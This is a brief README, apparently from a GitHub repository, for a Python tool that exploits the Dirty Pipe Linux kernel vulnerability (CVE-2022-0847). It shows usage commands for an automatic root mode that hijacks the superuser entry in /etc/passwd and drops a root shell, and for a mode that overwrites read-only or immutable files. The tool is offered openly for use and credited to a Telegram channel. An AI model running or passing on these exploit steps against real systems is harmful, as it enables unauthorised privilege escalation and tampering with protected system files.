

# Dirty Pipe automatic root exploit (CVE-2022-0847)



## Dependencies:
- **Python 3.10 or above**

## How to use:
### Automatic root:
```
$ python3.10 dirtyPipe.py -a
[+] hjacking super user in /etc/passwd
[+] dropipng shell
#  
```

### Write a no write permission, immutable or read-only mounted file:
```
$ python3.10 dirtyPipe.py -e FILE OFFSET DATA
```

#### An oferring from [**@terabitSec 🦜**](https://t.me/terabitSec).
